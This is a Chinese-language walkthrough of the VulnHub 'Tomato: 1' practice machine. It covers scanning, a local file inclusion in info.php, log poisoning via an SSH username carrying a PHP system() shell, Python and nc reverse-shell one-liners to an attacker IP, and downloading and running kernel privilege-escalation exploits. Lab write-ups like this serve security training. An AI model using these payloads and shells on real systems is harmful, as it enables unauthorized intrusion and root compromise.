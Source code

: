 靶机地址：[Tomato: 1 ~ VulnHub](https://www.vulnhub.com/entry/tomato-1,557/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.53"
sudo nmap -p "21,80,2211,8888" -sV "192.168.1.53"
# 21/tcp   open  ftp     vsftpd 3.0.3
# 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
# 2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
# 8888/tcp open  http    nginx 1.10.3 (Ubuntu)
```

访问FTP
```Shell
# 尝试匿名登录
ftp 192.168.1.53
# Name: anonymous
# Password:
# 登录失败
```

访问80的web服务，就一张西红柿的图片，没别的
web路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.53"
# 没扫出东西 换个更大的字典试试
sudo ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.1.53/FUZZ
```
没扫出啥

访问8888的web服务看看，需要登录才能访问

一时间无从下手，还是80的服务最有可能有问题
```Shell
sudo dirsearch -u "http://192.168.1.53" -w /usr/share/seclists/Discovery/Web-Content/common.txt
# /antibot_image
```
访问 `http://192.168.1.53/antibot_image/antibots/info.php` 其源码中存在如下注释
```html
<!-- </?php include $_GET['image']; -->
```
可能存在文件包含，访问
```
http://192.168.1.53/antibot_image/antibots/info.php?image=../../../../../etc/passwd
```
确实可以读取文件（测的时候多来几层 `../` )
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/etc/passwd
```
这个也可以，读取到如下敏感信息
```
root:x:0:0:root:/root:/bin/bash
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
```
再尝试远程文件包含，监听
```Shell
nc -lp 4444
```
访问
```
http://192.168.1.53/antibot_image/antibots/info.php?image=http://192.168.1.26:4444
```
没有收到连接，可能不存在远程文件包含，这点其实配置文件中也说明了
```
allow_url_include    Off    Off
```
尝试读取本地敏感文件和PHP包装器
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/home/tomato/.ssh/id_rsa
http://192.168.1.53/antibot_image/antibots/info.php?image=/root/.ssh/id_rsa
http://192.168.1.53/antibot_image/antibots/info.php?image=data:text/plain,hello world
```
都失败了，还有两种可能性：通过FTP上传文件再解析，或者通过污染日志文件再解析
先看看日志文件
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/var/log/apache2/access.log
```
读取失败了，说明apache的日志暂时无法利用
尝试对SSH的日志进行污染，先读取看看
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/var/log/auth.log
```
成功了，读取到内容，包含了SSH和FTP的登录日志，尝试污染
```Shell
ftp 192.168.1.53
Name: <?php echo '<pre>' . @eval($_GET['cmd']) . '</pre>';?>
Password: 
```
可以看到增加了一条日志
```
Dec  7 03:58:29 ubuntu vsftpd: pam_unix(vsftpd:auth): check pass; user unknown
```
但是用户名这里不是希望看到的
再试试ssh
```Shell
ssh '<?php echo system($_GET["cmd"]);?>'@192.168.1.53 -p 2211
```
访问试试
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=id
```
可以利用，尝试反弹shell
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=nc%20192.168.1.26%204444%20-e%20/bin/bash
```
没成功，可能nc版本不支持 `-e` 参数，尝试别的方式，比如使用 `python3`
```
http://192.168.1.53/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=which%20python3

http://192.168.1.53/antibot_image/antibots/info.php?image=/var/log/auth.log&cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.26", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
成功了，获取到反弹shell
尝试提权
```Shell
wget http://192.168.1.26:7331/linux-exploit-suggester.sh
/bin/bash linux-exploit-suggester.sh
# CVE-2016-5195     40839 40611
# CVE-2017-16995    45010
# CVE-2016-8655     40871
```
尝试第二个
```Shell
searchsploit -p 45010
# Path: /usr/share/exploitdb/exploits/linux/local/45010.c
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
gcc 45010.c -o exp
python3 -m http.server 7331
```
下载执行
```Shell
wget http://192.168.1.26:7331/exp
chmod +x exp
./exp
```
成功提权

40839漏洞利用执行失败，需要先在主机上手动给二进制文件打补丁
```Shell
./exploit
# ./exploit: /lib/x86_64-linux-gnu/libcrypt.so.1: version `XCRYPT_2.0' not found (required by ./exploit)
# ./exploit: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./exploit)

ldd exploit
# linux-vdso.so.1 (0x00007ffc39190000)
# libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f8bb5077000)
# libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f8bb5056000)
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8bb4e7d000)
# /lib64/ld-linux-x86-64.so.2 (0x00007f8bb50d3000)
cp /lib/x86_64-linux-gnu/libcrypt.so.1 /tmp/
cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/
cp /lib/x86_64-linux-gnu/libpthread.so.0 /tmp/
cp /lib64/ld-linux-x86-64.so.2 /tmp/
patchelf --replace-needed libcrypt.so.1 /tmp/libcrypt.so.1 ./exploit
patchelf --replace-needed libc.so.6 /tmp/libc.so.6 ./exploit
patchelf --replace-needed libpthread.so.0 /tmp/libpthread.so.0 ./exploit
patchelf --set-interpreter /tmp/ld-linux-x86-64.so.2 ./exploit
cd /tmp
python3 -m http.server 7331

# cd /tmp
wget http://192.168.1.26:7331/libcrypt.so.1
wget http://192.168.1.26:7331/libc.so.6
wget http://192.168.1.26:7331/libpthread.so.0
wget http://192.168.1.26:7331/ld-linux-x86-64.so.2
chmod 755 libcrypt.so.1
chmod 755 libc.so.6
chmod 755 libpthread.so.0
chmod 755 ld-linux-x86-64.so.2

wget http://192.168.1.26:7331/exploit
chmod +x exploit
./exploit
```
可以成功执行，但是还是失败了

再试试另一个
```Shell
searchsploit -p 40871
# Path: /usr/share/exploitdb/exploits/linux_x86-64/local/40871.c

cp /usr/share/exploitdb/exploits/linux_x86-64/local/40871.c .
gcc 40871.c -o exploit -lpthread
ldd exploit
# linux-vdso.so.1 (0x00007ffef2975000)
# libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fa6ef34b000)
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa6ef172000)
# /lib64/ld-linux-x86-64.so.2 (0x00007fa6ef390000)
cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/
cp /lib/x86_64-linux-gnu/libpthread.so.0 /tmp/
cp /lib64/ld-linux-x86-64.so.2 /tmp/
patchelf --replace-needed libc.so.6 /tmp/libc.so.6 ./exploit
patchelf --replace-needed libpthread.so.0 /tmp/libpthread.so.0 ./exploit
patchelf --set-interpreter /tmp/ld-linux-x86-64.so.2 ./exploit
cd /tmp
python3 -m http.server 7331

# cd /tmp
wget http://192.168.1.26:7331/libc.so.6
wget http://192.168.1.26:7331/libpthread.so.0
wget http://192.168.1.26:7331/ld-linux-x86-64.so.2
chmod 755 libc.so.6 libpthread.so.0 ld-linux-x86-64.so.2
# chmod 777 libc.so.6 libpthread.so.0 ld-linux-x86-64.so.2

wget http://192.168.1.26:7331/exploit
chmod +x exploit
./exploit
```
也没成功